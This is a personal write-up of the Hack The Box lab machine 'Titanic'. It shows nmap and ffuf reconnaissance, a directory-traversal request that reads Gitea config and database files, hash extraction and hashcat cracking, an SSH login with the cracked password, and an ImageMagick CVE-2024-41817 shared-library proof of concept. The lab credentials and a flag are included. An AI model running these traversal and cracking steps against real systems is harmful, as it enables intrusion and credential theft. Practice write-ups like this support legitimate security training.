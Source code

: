 # Titanic
- https://www.youtube.com/watch?v=2tQ3VhdwVsU
- https://0xdf.gitlab.io/2025/06/21/htb-titanic.html

## Setup
```
┌──(root㉿kali)-[/home/jacob/Documents/Notes/HTB_Labs]
└─# touch HTB_Titanic.md; mousepad Titanic.md
```
```
┌──(root㉿kali)-[/home/jacob/Desktop]
└─# mkdir titanic; cp nmap.sh titanic; cd titanic
```

## NMAP
```
┌──(root㉿kali)-[/home/jacob/Desktop/titanic]
└─# ./nmap.sh titanic 10.129.231.221
Running nmap scan on 10.129.231.221 with output to titanic...
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 11:41 AEST
Nmap scan report for 10.129.231.221
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.28 seconds
Scan completed successfully.
Output files created: titanic.nmap, titanic.gnmap, titanic.xml
```

## Guided Mode Questions
1. How many open TCP ports are listening on Titanic?
2

2. What is the subdomain of titanic.htb that hosts another web application different from the main website?
- `ffuf -u http://10.129.231.221 -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac`
- dev

3. What is the relative path of the endpoint on the main website that is vulnerable to a directory traversal / file read vulnerability?
- fter intercepting a 'book now' request, there's some back and forth where it seems the website makes a file with the details and then fetches it with a GET request to `http://titanic.htb/download?ticket=2baba876-1969-4bf5-a7d3-21b962416b17.json"`
- Answer: /download

4. What Python web framework is the main site written in?
- Make it 404 with `http://titanic.htb/abc` and the error message is the default 404 of Flask: `https://0xdf.gitlab.io/cheatsheets/404#flask`
- GitTea also tells you

5. What kind of database is Gitea using?
- This was tricky - you had to piggy back off the previous GET request for a ticket and find the path to the `app.ini` file in the docker-compose.yml file. Once you crafted the path, append it to the URL:
```
GET /download?ticket=/home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
In the response we see: `DB_TYPE = sqlite3` (Answer is sqlite)
- Also reveals another path: `PATH = /data/gitea/gitea.db`

6. What is the full path to the gitea.db file on the host (not the container) filesystem?
- Also crafted from appending the URL part `/home/developer/gitea` to what is found in the `app.ini` file to make:`/home/developer/gitea/data/gitea/gitea.db`

7. What is the developer user's password for Gitea?
- NOT the MYSQL root password of `'MySQLP@$$w0rd!'` found in `developer/docker-config`
- Need to go to the DB file: `/home/developer/gitea/data/gitea/gitea.db`. But much more readable if you GET with curl: `curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db`
- Connect to file with: `sqlite3 gitea.db` --> `.tables` --> `select * from user;` Since user table stores passwords in hash form.
- 0xdf does this to make it clearer: `sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes`
- Result, which is saved to gitea.hashes locally:
```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
- Runs hashcat: `hashcat gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --user`
- Output: `sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528`
- Seen at the end, it cracks developers to be `25282528`

8. Submit the flag located in the developer user's home directory.
Using the password above, ssh: `ssh developer@titanic.htb`
```
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt 
8ba80e75c6399c603bf9061ab5ea662f
```

9. What is the full path of the shell script that is run by root on a cron every minute?
- Check processes: `ps auxww`
- `/opt/scripts/` has a `identify_images.sh` (Answer: `/opt/scripts/identify_images.sh`)

10. What is the CVE ID for a 2024 vulnerability in Image Magick that can lead to privileges escalation by having it load a shared library?
```
developer@titanic:/opt/scripts$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```
- `CVE-2024-41817` (Thank you Claude) - https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
- The POC in the advisory is to run this command to build the shared library:
```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```
11. Submit the flag located in the root user's home directory.




## Lessons
- Always add subdomains to etc/hosts: `10.129.231.221 titanic.htb dev.titanic.htb`
